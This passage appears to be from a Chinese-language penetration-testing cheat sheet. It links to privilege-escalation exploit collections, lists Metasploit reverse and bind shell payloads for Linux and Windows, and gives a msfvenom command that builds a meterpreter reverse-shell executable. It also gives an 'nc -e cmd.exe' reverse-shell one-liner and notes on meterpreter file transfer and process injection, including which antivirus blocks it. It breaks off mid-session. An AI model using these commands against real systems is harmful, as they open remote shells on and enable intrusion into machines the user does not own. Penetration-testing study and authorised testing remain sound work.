      感谢前辈收集的提权exp，地址：
     [windows-kernel-exploits Windows平台提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)
     [linux-kernel-exploits Linux平台提权漏洞集合](https://github.com/SecWiki/linux-kernel-exploits)

  10. ##### msf

      linux相关payload： 

      ```shell
      linux/x86/meterpreter/reverse_tcp
          linux/x86/meterpreter/bind_tcp
          linux/x86/shell_bind_tcp
          linux/x86/shell_reverse_tcp
      	linux/x64/shell/bind_tcp
      	linux/x64/shell/reverse_tcp
      	linux/x64/shell_bind_tcp
      	linux/x64/shell_bind_tcp_random_port
      	linux/x64/shell_reverse_tcp
      ```

      windows相关payload: 

      ```shell
       windows/meterpreter/reverse_tcp
          windows/meterpreter/bind_tcp
      	windows/meterpreter/reverse_hop_http
      	windows/meterpreter/reverse_http
      	windows/meterpreter/reverse_http_proxy_pstore
      	windows/meterpreter/reverse_https
      	windows/meterpreter/reverse_https_proxy
          windows/shell_reverse_tcp
          windows/shell_bind_tcp
          windows/x64/meterpreter/reverse_tcp
          windows/x64/meterpreter/bind_tcp
          windows/x64/shell_reverse_tcp
          windows/x64/shell_bind_tcp
      ```

      目标服务器为64位用x64监听，反弹meterpreter用含有meterpreter的模块，反弹普通的shell（例如nc），shell_reverse_tcp模块监听

      例如msf:

      ```shell
      反弹shell  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe 
      监听       windows/meterpreter/reverse_tcp
      
      反弹shell  nc -e cmd.exe ip port 
      监听       windows/shell_reverse_tcp
      ```

      meterpreter下上传 upload file 下载 download file 

  11. ##### Msf进程注入(测试win10没成功,win2008 可以，360会拦)

      ```shell
      meterpreter > getuid
      Server username: xxxx
      meterpreter > getpid
      Current pid: 3456
      meterpreter > ps
      
